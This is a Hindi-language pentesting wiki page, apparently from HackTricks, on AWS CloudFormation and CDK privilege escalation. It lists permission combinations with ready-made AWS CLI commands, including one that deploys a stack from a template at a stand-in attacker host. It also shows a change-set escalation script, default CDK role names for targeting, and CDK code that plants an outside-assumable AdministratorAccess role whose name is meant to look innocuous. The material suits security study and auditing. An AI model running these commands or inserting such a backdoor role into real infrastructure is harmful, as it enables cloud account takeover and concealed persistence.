 # AWS - Cloudformation Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## cloudformation

cloudformation के बारे में अधिक जानकारी के लिए देखें:

{{#ref}}
../../aws-services/aws-cloudformation-and-codestar-enum.md
{{#endref}}

### `iam:PassRole`, `cloudformation:CreateStack`

इन अनुमतियों के साथ एक हमलावर **अधिकारों को बढ़ा सकता है** एक **CloudFormation स्टैक** को एक कस्टम टेम्पलेट के साथ तैयार करके, जो उनके सर्वर पर होस्ट किया गया है, ताकि **निर्धारित भूमिका के अनुमतियों के तहत क्रियाएँ निष्पादित की जा सकें:**
```bash
aws cloudformation create-stack --stack-name <stack-name> \
--template-url http://attacker.com/attackers.template \
--role-arn <arn-role>
```
इस पृष्ठ पर आपके पास एक **शोषण उदाहरण** है जिसमें अतिरिक्त अनुमति **`cloudformation:DescribeStacks`** है:

{{#ref}}
iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md
{{#endref}}

**संभावित प्रभाव:** निर्दिष्ट क्लाउडफॉर्मेशन सेवा भूमिका के लिए प्रिवेस्क।

### `iam:PassRole`, (`cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`)

इस मामले में आप एक **मौजूदा क्लाउडफॉर्मेशन स्टैक** का दुरुपयोग कर सकते हैं ताकि इसे अपडेट किया जा सके और पिछले परिदृश्य की तरह विशेषाधिकार बढ़ाए जा सकें:
```bash
aws cloudformation update-stack \
--stack-name privesc \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::91029364722:role/CloudFormationAdmin2 \
--capabilities CAPABILITY_IAM \
--region eu-west-1
```
`cloudformation:SetStackPolicy` अनुमति का उपयोग **अपने लिए `UpdateStack` अनुमति देने** के लिए किया जा सकता है और हमले को अंजाम दिया जा सकता है।

**संभावित प्रभाव:** क्लाउडफॉर्मेशन सेवा भूमिका में प्रिवेस्क।

### `cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`

यदि आपके पास यह अनुमति है लेकिन **कोई `iam:PassRole` नहीं है**, तो आप अभी भी **उपयोग किए गए स्टैक्स को अपडेट** कर सकते हैं और **IAM भूमिकाओं का दुरुपयोग कर सकते हैं जो पहले से ही संलग्न हैं**। शोषण उदाहरण के लिए पिछले अनुभाग की जांच करें (बस अपडेट में कोई भूमिका न बताएं)।

`cloudformation:SetStackPolicy` अनुमति का उपयोग **अपने लिए `UpdateStack` अनुमति देने** के लिए किया जा सकता है और हमले को अंजाम दिया जा सकता है।

**संभावित प्रभाव:** क्लाउडफॉर्मेशन सेवा भूमिका में प्रिवेस्क जो पहले से ही संलग्न है।

### `iam:PassRole`,((`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

एक हमलावर जिसके पास **भूमिका पास करने और एक ChangeSet बनाने और निष्पादित करने की अनुमति है** वह **एक नया क्लाउडफॉर्मेशन स्टैक बना/अपडेट कर सकता है और क्लाउडफॉर्मेशन सेवा भूमिकाओं का दुरुपयोग कर सकता है** जैसे कि CreateStack या UpdateStack के साथ।

निम्नलिखित शोषण **CreateStack एक**[ **का एक भिन्नता है**](#iam-passrole-cloudformation-createstack) जो **ChangeSet अनुमतियों** का उपयोग करके एक स्टैक बनाने के लिए है।
```bash
aws cloudformation create-change-set \
--stack-name privesc \
--change-set-name privesc \
--change-set-type CREATE \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::947247140022:role/CloudFormationAdmin \
--capabilities CAPABILITY_IAM \
--region eu-west-1

echo "Waiting 2 mins to change the stack"
sleep 120

aws cloudformation execute-change-set \
--change-set-name privesc \
--stack-name privesc \
--region eu-west-1

echo "Waiting 2 mins to execute the stack"
sleep 120

aws cloudformation describe-stacks \
--stack-name privesc \
--region eu-west-1
```
`cloudformation:SetStackPolicy` अनुमति का उपयोग **अपने लिए `ChangeSet` अनुमतियाँ देने** के लिए किया जा सकता है और हमले को अंजाम दिया जा सकता है।

**संभावित प्रभाव:** cloudformation सेवा भूमिकाओं के लिए प्रिवेस्क।

### (`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

यह पिछले तरीके की तरह है बिना **IAM भूमिकाएँ** पास किए, इसलिए आप बस **पहले से जुड़े हुए को दुरुपयोग** कर सकते हैं, बस पैरामीटर को संशोधित करें:
```
--change-set-type UPDATE
```
**संभावित प्रभाव:** पहले से जुड़े क्लाउडफॉर्मेशन सेवा भूमिका के लिए प्रिवेस्क।

### `iam:PassRole`,(`cloudformation:CreateStackSet` | `cloudformation:UpdateStackSet`)

एक हमलावर इन अनुमतियों का दुरुपयोग करके स्टैकसेट्स को बनाने/अपडेट करने के लिए क्लाउडफॉर्मेशन भूमिकाओं का दुरुपयोग कर सकता है।

**संभावित प्रभाव:** क्लाउडफॉर्मेशन सेवा भूमिकाओं के लिए प्रिवेस्क।

### `cloudformation:UpdateStackSet`

एक हमलावर इस अनुमति का दुरुपयोग बिना पासरोल अनुमति के स्टैकसेट्स को अपडेट करने के लिए कर सकता है ताकि जुड़े क्लाउडफॉर्मेशन भूमिकाओं का दुरुपयोग किया जा सके।

**संभावित प्रभाव:** जुड़े क्लाउडफॉर्मेशन भूमिकाओं के लिए प्रिवेस्क।

## AWS CDK

AWS cdk एक टूलकिट है जो उपयोगकर्ताओं को उनके परिचित भाषाओं में अपने बुनियादी ढांचे को कोड के रूप में परिभाषित करने की अनुमति देता है, साथ ही अनुभागों का आसानी से पुन: उपयोग करने की सुविधा भी देता है। CDK फिर उच्च-स्तरीय कोड (जैसे पायथन) को क्लाउडफॉर्मेशन टेम्पलेट्स (yaml या json) में परिवर्तित करता है।

CDK का उपयोग करने के लिए, एक प्रशासनिक उपयोगकर्ता को पहले खाते को बूटस्ट्रैप करना होगा, जो कई IAM भूमिकाएँ बनाता है, जिसमें *exec role* शामिल है, जिसके पास \*/\* अनुमतियाँ होती हैं। ये भूमिकाएँ नामकरण संरचना `cdk-<qualifier>-<name>-<account-id>-<region>` का पालन करती हैं। बूटस्ट्रैपिंग को प्रति क्षेत्र प्रति खाते एक बार किया जाना चाहिए।

डिफ़ॉल्ट रूप से, CDK उपयोगकर्ताओं को CDK का उपयोग करने के लिए आवश्यक भूमिकाओं की सूची बनाने की अनुमति नहीं होती है, जिसका अर्थ है कि आपको उन्हें मैन्युअल रूप से निर्धारित करना होगा। यदि आप किसी डेवलपर की मशीन या किसी CI/CD नोड से समझौता करते हैं, तो इन भूमिकाओं को ग्रहण किया जा सकता है ताकि आप CFN टेम्पलेट्स को तैनात करने की क्षमता प्राप्त कर सकें, `cfn-exec` भूमिका का उपयोग करके CFN को किसी भी संसाधन को तैनात करने की अनुमति देने के लिए, जिससे खाते का पूर्ण समझौता हो जाता है।

### भूमिका नाम निर्धारित करना

यदि आपके पास `cloudformation:DescribeStacks` है, तो भूमिकाएँ `CDKToolkit` नामक एक स्टैक में परिभाषित हैं, और आप वहां से नाम खींच सकते हैं।

यदि आप किसी मशीन पर हैं जिसका उपयोग CDK परियोजनाओं को बनाने और तैनात करने के लिए किया गया है, तो आप उन्हें परियोजनाओं की मूल निर्देशिका में `cdk.out/manafest.json` से खींच सकते हैं।

आप यह भी अनुमान लगा सकते हैं कि वे क्या हैं। `qualifier` एक स्ट्रिंग है जो भूमिकाओं में जोड़ी जाती है जिससे एक साथ कई CDK बूटस्ट्रैप के उदाहरण तैनात किए जा सकें, हालाँकि डिफ़ॉल्ट मान को हार्ड-कोड किया गया है `hnb659fds`।
```
# Defaults
cdk-hnb659fds-cfn-exec-role-<account-id>-<region>
cdk-hnb659fds-deploy-role-<account-id>-<region>
cdk-hnb659fds-file-publishing-role-<account-id>-<region>
cdk-hnb659fds-image-publishing-role-<account-id>-<region>
cdk-hnb659fds-lookup-role-<account-id>-<region>
```
### परियोजना स्रोत में दुर्भावनापूर्ण कोड जोड़ना

यदि आप परियोजना स्रोत में लिख सकते हैं, लेकिन इसे स्वयं तैनात नहीं कर सकते (उदाहरण के लिए, डेवलपर कोड को CI/CD के माध्यम से तैनात करता है, न कि स्थानीय मशीन से), तो आप स्टैक में दुर्भावनापूर्ण संसाधन जोड़कर वातावरण को समझौता कर सकते हैं। निम्नलिखित एक IAM भूमिका जोड़ता है जिसे एक हमलावर खाते द्वारा ग्रहण किया जा सकता है एक python CDK परियोजना में।
```python
class CdkTestStack(Stack):
def __init__(self, scope: Construct, construct_id: str, **kwargs) -> None:
super().__init__(scope, construct_id, **kwargs)

# ----------
# Some existing code.....
# ----------

role = iam.Role(
self,
"cdk-backup-role", # Role name, make it something subtle
assumed_by=iam.AccountPrincipal("1234567890"), # Account to allow to assume the role
managed_policies=[
iam.ManagedPolicy.from_aws_managed_policy_name("AdministratorAccess") # Policies to attach, in this case AdministratorAccess
],
)
```
## संदर्भ

- [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)
- [https://github.com/aws/aws-cdk-cli/blob/main/packages/aws-cdk/lib/api/bootstrap/bootstrap-template.yaml](https://github.com/aws/aws-cdk-cli/blob/main/packages/aws-cdk/lib/api/bootstrap/bootstrap-template.yaml)

{{#include ../../../../banners/hacktricks-training.md}}
